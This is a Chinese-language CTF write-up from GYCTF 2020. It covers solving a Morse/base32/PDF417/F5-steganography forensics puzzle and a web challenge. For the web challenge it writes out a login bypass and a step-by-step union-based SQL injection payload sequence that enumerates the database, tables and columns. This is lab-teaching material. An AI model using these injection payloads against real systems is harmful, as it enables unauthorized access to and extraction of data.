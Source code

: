 ```yaml
---
title: GYCTF——2020i春秋新春战疫CTF——网络安全公益赛
date: 2020-02-25
tags: [CTF, WP]
categories:
- [CTF, WP]
comments: false
---
```

# GYCTF——2020i春秋新春战疫CTF——网络安全公益赛

## MISC

### code_in_morse

下载下来是压缩包,解压是流量包,用wireshark分析,过滤http

发现上传文件的upload.php,跟踪流里面是morse码,morse解码是一堆字母加数字,很像base64,但是其中没有1没有8数字只要2-7,因为上传的是文件,base32解码成文件,下面这个工具解码得到一个图片



[Base32 Decode File](https://emn178.github.io/online-tools/base32_decode_file.html)

图片不知道是什么,用google识图搜索后发现一种很类似的条形码格式PDF417,随认为是该种条形码,用一下工具进行识别,识别出一个网站,网站是一张图片

[![mark](https://blogjpg.yanmy.top/blog/20200224/yz1DwxX4ETFj.png?imageslim)](https://blogjpg.yanmy.top/blog/20200224/yz1DwxX4ETFj.png?imageslim)

[条形码二维码识别](https://online-barcode-reader.inliteresearch.com/)

[![mark](https://blogjpg.yanmy.top/blog/20200224/s4EqXhqUH5Lx.jpg?imageslim)](https://blogjpg.yanmy.top/blog/20200224/s4EqXhqUH5Lx.jpg?imageslim)

Stegsolve分析文件格式出现F5,是F5隐写,用GitHub的F5隐写工具解密,没有密码,得到flag

## WEB

### 简单的招聘系统

这个题拿到手先是一个登录框,尝试了万能密码什么的发现总是未知错误,以为是我的原因,经群里大佬提醒容器不稳定,重新下发,发现万能密码登录成功

浏览各个页面发现AdminPage有一个serach for key的查询框

[![mark](https://blogjpg.yanmy.top/blog/20200223/tX2ll5OsA5JH.png?imageslim)](https://blogjpg.yanmy.top/blog/20200223/tX2ll5OsA5JH.png?imageslim)

尝试sql注入,有回显,有错误提示,直接有回显的sql注入一套,得flag

```
' or 1=1 order by 5#
' or 1=1 order by 6#
#5有回显,6没有

' or 1=1 union select 1,2,3,4,5#
#admin变成2,输出位置在2

' or 1=1 union select 1,group_concat(database()),3,4,5#
#查库

' or 1=1 union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database()#
#查表

' or 1=1 union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema=database() and table_name='flag'#
```